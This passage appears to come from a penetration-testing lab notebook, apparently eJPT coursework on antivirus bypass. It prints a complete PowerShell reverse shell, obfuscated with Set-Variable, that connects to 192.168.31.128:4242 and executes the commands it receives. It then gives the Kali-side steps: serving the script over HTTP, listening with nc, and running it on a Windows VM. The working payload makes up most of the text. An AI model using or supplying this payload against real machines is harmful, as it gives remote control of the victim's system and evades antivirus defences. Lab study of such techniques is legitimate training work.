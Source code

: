 - Obfuscated code is:

```bash
Set-Variable -Name client -Value (New-Object System.Net.Sockets.TCPClient('192.168.31.128',4242));Set-Variable -Name stream -Value ($client.GetStream());[byte[]]$bytes = 0..65535|%{0};while((Set-Variable -Name i -Value ($stream.Read($bytes, 0, $bytes.Length))) -ne 0){;Set-Variable -Name data -Value ((New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i));Set-Variable -Name sendback -Value (iex $data 2>&1 | Out-String );Set-Variable -Name sendback2 -Value ($sendback + 'PS ' + (pwd).Path + '> ');Set-Variable -Name sendbyte -Value (([text.encoding]::ASCII).GetBytes($sendback2));$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```bash
cd /home/kali/certs/ejpt/AVBypass/    
nano obfuscated.ps1
```

```bash
# Attacker VM another terminal
cd /home/kali/certs/ejpt/AVBypass/
sudo python -m http.server 80

nc -nvlp 4242
```

- Run the `obfuscated.ps1` file on the Win10 VM

![](.gitbook/assets/image-20230424174516223.png)

- Back on the Kali VM check the PowerShell reverse shell 

![PowerShell reverse shell](.gitbook/assets/image-20230424174638022.png)

------

